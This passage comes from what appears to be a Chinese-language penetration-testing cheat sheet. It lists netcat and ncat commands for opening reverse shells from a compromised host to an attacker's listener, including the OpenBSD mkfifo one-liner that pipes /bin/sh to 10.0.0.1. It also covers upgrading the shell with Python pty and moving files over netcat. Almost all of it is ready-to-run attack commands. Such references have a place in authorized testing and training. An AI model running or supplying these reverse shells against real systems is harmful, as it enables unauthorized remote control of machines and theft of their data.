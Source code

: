     python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **reverse shell**
    ```bash
    # 被控端
    nc -nv 192.168.1.1 4444 -e /bin/bash

    # 攻击端
    nc -lvp 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **文件传输**
    ```bash
    # 收
    nc -nvlp 4444 > aaa
    ```
    ```bash
    # 发
    nc -nv 192.168.1.1 4444 </usr/share/aaa    # kali
    ```

#### ncat

```bash
# 被控端
ncat lvp 4444 -e cmd.exe --allow 192.168.1.1 --ssl

# 攻击端
ncat -v 192.168.1.1 4444 --ssl
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

#### Netcat Traditional
```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

#### Netcat OpenBsd
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
